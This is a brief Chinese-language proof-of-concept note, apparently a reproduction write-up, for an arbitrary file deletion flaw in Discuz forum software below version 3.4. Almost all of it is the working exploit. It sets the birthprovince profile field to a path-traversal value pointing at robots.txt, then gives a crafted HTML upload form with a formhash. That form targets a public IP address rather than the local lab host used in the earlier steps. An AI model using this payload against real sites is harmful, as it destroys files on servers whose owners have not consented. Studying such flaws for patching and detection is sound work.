

# Discuz＜3.4任意文件删除漏洞

## 删除robots.txt文件
	http://192.168.1.102/Discuz_X3.2_SC_UTF8/upload/robots.txt

## 修改出生地省份
	http://192.168.1.102/Discuz_X3.2_SC_UTF8/upload/home.php?mod=spacecp&ac=profile&op=base

	birthprovince值修改为../../../robots.txt

## 构造数据包上传文件造成任意文件删除
	<form action="http://113.105.88.59/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
	<input type="file" name="birthprovince" id="file" />
	<input type="text" name="formhash" value="b357297e" /> //此formhash值在网页源代码中可以搜索到
	<input type="text" name="profilesubmit" value="1" />
	<input type="submit" value="submit" />
	</form>

